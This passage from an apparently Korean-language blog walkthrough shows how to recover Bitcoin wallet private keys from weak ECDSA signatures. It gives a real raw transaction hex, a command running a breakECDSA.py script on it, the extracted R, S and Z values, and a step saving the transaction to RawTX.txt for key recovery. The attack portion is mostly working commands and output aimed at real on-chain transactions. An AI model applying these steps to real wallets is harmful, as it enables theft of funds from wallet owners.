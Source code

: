 

<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/cfc6047c1ad23ddb9d3e0151217fe62f045429ffb225e878a07a0db6f98fb9b3
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-152-1024x142.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1274"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-153-1024x248.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1276"/></figure>



<pre class="wp-block-code"><code>R = 0x682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e88
S = 0x052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9
Z = 0x395e27708f075827fc7b179382a2a5e13c7649a046a89f2937bc5754349cc05d</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000</code></pre>
